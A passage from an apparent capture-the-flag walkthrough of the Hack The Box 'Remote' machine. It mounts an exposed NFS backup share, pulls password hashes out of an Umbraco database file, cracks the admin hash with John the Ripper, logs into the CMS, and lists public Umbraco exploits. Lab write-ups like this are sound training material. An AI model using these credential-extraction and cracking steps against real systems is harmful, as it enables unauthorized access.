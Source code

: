     :::text
    $ mkdir /tmp/nfs
    $ mount -t nfs 10.10.10.180:/site_backups /tmp/nfs -nolock
    $ cd /tmp/nfs/
    $ ls
    App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config
    $ ls App_Data
    cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf

We copy it on our local folder and run `string` on it. The password hash for the
account "admin@htb.local’ is in the first lines.

    :::text
    strings ~/pentest/htb_remote/Umbraco.sdf  | less
    Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
    adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
    adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
    smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
    ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
    ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

We run John the ripper with the Rockyou word list against the hash and found the
password "baconandcheese".

    :::text
    $ john hash -w=tools/password_lists/rockyou.txt
    Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Press 'q' or Ctrl-C to abort, almost any other key for status
    baconandcheese   (?)

The credentials admin@htb.local:baconandcheese allow us ton connect to the
Umbraco interface.

![Umbraco admin interface](/media/2020.11/remote_05.png)

## Exploiting Umbraco

As previously mentioned there is a few exploit for Umbraco.

    :::text
    $ searchsploit umbraco
    --------------------------------------- ----------------------------------------
    Exploit Title                         |  Path
                                          | (/usr/share/exploitdb/)
    --------------------------------------- ----------------------------------------
    Umbraco CMS - Remote Command Execution | exploits/windows/webapps/19671.rb
    Umbraco CMS 7.12.4 - (Authenticated) R | exploits/aspx/webapps/46153.py
    Umbraco CMS SeoChecker Plugin 1.9.2 -  | exploits/php/webapps/44988.txt
    --------------------------------------- ----------------------------------------
    Shellcodes: No Result
    Papers: No Result
